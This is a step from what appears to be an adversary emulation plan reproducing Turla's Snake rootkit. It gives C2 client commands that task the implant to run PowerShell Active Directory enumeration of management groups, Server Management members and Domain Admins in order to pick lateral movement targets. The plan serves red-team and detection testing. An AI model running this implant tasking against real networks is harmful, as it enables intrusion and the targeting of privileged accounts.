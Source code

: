 ### :microscope: Cited Intelligence

* <https://artemonsecurity.com/snake_whitepaper.pdf>

## Step 15 - Domain Discovery

:microphone: `Voice Track:`

Step 15 emulates Turla using Powershell to perform Active Directory user, group, and computer discovery. 

The Snake rootkit receives tasking from the C2 server to use Powershell's `ActiveDirectory` module to enumerate domain users, admin groups, and computers. Upon discovering `Zilvinas`'s regular and domain admin accounts, Snake will enumerate further details on the accounts. Snake then
discovers a workstation belonging to `Zilvinas` to use as a future lateral movement target.

---

### :biohazard: Procedures

* From your lower Kali C2 control server terminal window, task Snake to check if the `ActiveDirectory` PowerShell module is installed.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Get-Module -ListAvailable -Name ActiveDirectory"}'
```
:heavy_exclamation_mark: Verify that you see output. If the implant returns empty output, please contact your lead.

* Wait 1 minute before tasking Snake to collect a list of Active Directory groups containing the word "management", 
as members of these groups will likely have elevated permissions on the network.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroup -Filter * | Where-Object Name -Match \"management\" | Select Name"}'
```
:heavy_exclamation_mark: Verify that `Server Management` is included in the results.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Server Management` domain group. This will instruct Turla on users to target next.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Server Management\" | Select Name,SamAccountName"}'
```
:heavy_exclamation_mark: Verify that `ZilvinasAdmin`shows up in the list of accounts.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Domain Admins` domain group.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Domain Admins\" | Select Name,SamAccountName"}'
```
:heavy_exclamation_mark: Verify that `ZilvinasAdmin`shows up in the list of accounts.
